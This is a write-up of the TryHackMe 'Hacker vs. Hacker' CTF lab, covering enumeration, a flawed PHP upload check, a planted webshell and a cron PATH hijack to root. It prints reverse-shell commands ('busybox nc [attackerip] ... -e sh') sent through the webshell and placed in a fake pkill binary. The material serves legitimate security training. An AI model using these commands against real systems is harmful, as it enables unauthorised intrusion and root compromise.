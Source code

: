 ```yaml
---
title: "Hacker vs. Hacker"
date: 2025-02-13
image: /assets/img/tryhackme/Hackervshacker/Hackervshacker_image.jpg
description: Writeup of the TryHackMe-CTF ###
categories: [Tryhackme, Easy]
tags: [linux, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Hacker vs. Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Someone has compromised this server already! Can you get in and evade their countermeasures?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/hackervshacker">https://tryhackme.com/room/hackervshacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Hacker vs. Hacker.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:27 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 22.96 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:28 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
  |   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
  |_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title: RecruitSec: Industry Leading Infosec Recruitment
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

While manually analyzing the website, I found a comment in the source code:
```html
<!-- im no security expert - thats what we have a stable of nerds for - but isn't /cvs on the public website a privacy risk? -->
```

The website also provided an upload functionality for CV's as well. Which means uploaded CV's will be stored in the `/cvs` subdirectory. I tried to upload valid files, a PHP webshell, and other stuff, but I always received the following message:
```text
Hacked! If you dont want me to upload my shell, do better at filtering!
```
quick check of the source code revealed some interesting details:
```html
<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

With this in mind I tried a pdf file, but got the same error. The attacker seems to have disabled the upload function but already used it for initial access. The code only checks for one occurrence of `.pdf` so the name of the shell could be like `something.pdf.php`:

```bash
$ ffuf -u http://10.10.103.67/cvs/FUZZ.pdf.php -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt 

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : GET
   :: URL              : http://10.10.103.67/cvs/FUZZ.pdf.php
   :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
  ________________________________________________

shell                   [Status: 200, Size: 18, Words: 1, Lines: 2, Duration: 44ms]
```

Fuff helped to find it real quick. That seems like a regular PHP webshell one-liner:

![Web Shell](/assets/img/tryhackme/Hackervshacker/thm_hackervshacker_1.jpg)

I used it to get a reverse shell using `busybox` 

```html
http://10.10.103.67/cvs/shell.pdf.php?cmd=busybox nc [attackerip] 9001 -e sh
```

While trying to stabilize the shell with Python, the word `nope` appeared, and my `PTY` was terminated. It appears that there is a mechanism in place to prevent stabilization or the initiation of `PTY` sessions. But I was able to collect the user flag anyway:

```bash
www-data@b2r:/var/www/html/cvs$ nope
cd /home
ls
lachlan
cd lachlan
ls
bin
user.txt
cat user.txt 
thm{[removed]}
```

## Privilege Escalation lachlan

From this point, I attempted to escalate privileges to the user `lachlan`. I found something interesting in the `bash_history` of the user:

```bash
cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\n[removed]\n[removed]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

The user changed their password in an insecure manner. From here ssh isn't possible because the shell gets closed again instantly with a `nope`. After researching the `ssh` command, I discovered that `ssh` does not create a PTY session when using the `-T` flag.

## Privilege Escalation root

While searching for a way to gain root access, I found a cron job file named `persistence`:

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

The path for the execution is `/home/lachlan/bin` which is under control. Since the `pkill` command is not referenced by its full path, we can exploit this by creating our own executable:

```bash
pwd
	/home/lachlan/bin
echo "busybox nc [attackerip] 9002 -e sh" > pkill
chmod 777 pkill
```

I then started a `netcat` listener and waited for the incoming connection:

```bash
$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [attackerip] from (UNKNOWN) [10.10.103.67] 37212
whoami
root
cat /root/root.txt
thm{[removed]}
```

solved! :)
